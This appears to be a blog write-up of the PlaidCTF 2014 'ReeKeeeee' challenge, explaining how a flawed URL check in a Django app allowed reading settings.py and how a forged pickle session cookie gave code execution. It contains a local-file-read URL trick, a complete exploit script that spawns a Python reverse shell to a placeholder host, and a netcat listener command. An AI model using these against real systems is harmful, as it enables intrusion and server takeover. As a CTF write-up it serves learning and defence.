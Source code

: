 ```yaml
---
layout: post
title: "PlaidCTF 2014: ReeKeeeee"
date: 2014-04-14 06:46:01 +0000
permalink: /2014/04/14/plaidctf-2014-reekeeeee/
category: Security
tags:
  - CTF
  - PlaidCTF
  - Security
---
```

ReeKeeeeee was, by far, the most visually painful challenge in the CTF, with a flashing rainbow background on every page.  Blocking scripts was clearly a win here.  Like many of the challenges this year, it turned out to require multiple exploitation steps.

ReeKeeeeee was a meme-generating service that allowed you to provide a URL to an image and text to overlay on the image.  Source code was provided, and it was worth noting that it's a Django app using the <code>django.contrib.sessions.serializers.PickleSerializer</code> serializer.  As the [documentation for the serializer](https://docs.djangoproject.com/en/3.0/topics/http/sessions/) notes, **If the SECRET_KEY is not kept secret and you are using the PickleSerializer, this can lead to arbitrary remote code execution.**  So, maybe, can we get the SECRET_KEY?

#### Getting SECRET_KEY ####
Here's the core of the meme-creation view in views.py:

    try:
      if "http://" in url:
        image = urllib2.urlopen(url)
      else:
        image = urllib2.urlopen("http://"+url)
    except:
      return HttpResponse("Error: couldn't get to that URL"+BACK)
    if int(image.headers["Content-Length"]) > 1024*1024:
      return HttpResponse("File too large")
    fn = get_next_file(username)
    print fn
    open(fn,"w").write(image.read())
    add_text(fn,imghdr.what(fn),text)


Looking at how images are loaded, they are sourced via <code>urllib2.urlopen</code>, then saved to a file, then PIL is used to add text to the image.  If the file is not a valid image type, an exception will be thrown during this phase.  However, **the original file downloaded remains on disk.**  This means we can use the download to source any file and get a copy of it, even though it will be served with the bizarre mimetype image/None.

At first, it appears that only http:// urls are permitted, so we considered that we might be able to source some URL from localhost that might provide us with the application configuration, but we couldn't find any such URL.  I tried building a webserver that sends a redirect to a file:// url, but the Python developers are wise to that.  Then I noticed that it says <code>"http://" in url</code>, which means that it only needs to *contain* http://, but doesn't have to start with that protocol.  So, I began playing around with options to try to use a file:// url, but containing http://.  My first thought was as a username, with something like <code>file://http://@/etc/passwd</code> or <code>file://http://@localhost/etc/passwd</code>, but neither of those worked.  I also tried a query-string like path, with <code>file:///etc/passwd?http://</code>, but that's also just considered part of the filename.  Finally, my teammate Taylor noticed that this construct seems to work: <code>file:///etc/passwd#http://</code>.

Now we needed to find the SECRET_KEY.  Even though we dumped <code>/etc/passwd</code>, and could see users and home directories, we couldn't find settings.py.  It took a few minutes to realize that we could find the directory we were running from by <code>/proc/self/cwd</code>, and based on the provided source, the file was probably at <code>mymeme/settings.py</code>.  Trying <code>file:///proc/self/cwd/mymeme/settings.py#http://</code> for the image URL finally gave us a usable copy of settings.py.

#### SECRET_KEY to flag ####
Given the SECRET_KEY, we can now construct our own session tokens.  Since we're using the pickle session module, we can produce sessions that give us code execution via pickling.  Objects can implement a custom <code>__reduce_\_</code> method that defines how they are to be pickled, and they will be unpickled by calling the relevant "constructor function."  For a general primer on exploiting Python pickling, see [Nelson Elhage's blog post](https://blog.nelhage.com/2011/03/exploiting-pickle/). 

I decide the easiest way to exploit code execution is to use a reverse shell on the box, which can be launched via subprocess.popen.  Since we know python is on the system, but can't be sure of any other tools, I decide to use a python reverse shell.  Here's the script I wrote to construct a new session cookie:

    #!python
    import os
    import subprocess
    import pickle
    from django.core import signing
    from django.contrib.sessions.serializers import PickleSerializer
    
    os.environ.setdefault("DJANGO_SETTINGS_MODULE", "mymeme.settings")
    
    class Exploit(object):
      def __reduce__(self):
        return (subprocess.Popen, (
          ("""python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("xxx.myvps.xxx",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' &"""),
          0, # Bufsize
          None, # exec
          None, #stdin
          None, #stdout
          None, #stderr
          None, #preexec
          False, #close_fds
          True, # shell
          ))
    
    #pickle.loads(pickle.dumps(Exploit()))
    
    print signing.dumps(Exploit(),
        salt='django.contrib.sessions.backends.signed_cookies',
        serializer=PickleSerializer,
        compress=True)

Running this gives us our new cookie value.  Before I load a page with the cookie, I start a netcat listener with <code>nc -l -p 1234</code> for the shell to connect to.  When I load the page, I see my listener get a connection, and I have a remote shell.  Moving up a directory, I find an executable named something like <code>run_this_for_flag.exe</code> and I run it to get the flag.

#### Conclusion ####
Took an information disclosure + remote code execution via pickle, but just goes to show you how easy it is to escalate a bad use of urlopen to a remote shell.  In fact, had it said <code>url.startswith('http://')</code> instead of <code>'http://' in url</code>, everything would've stopped there.  Small vulnerabilities can lead to big problems.

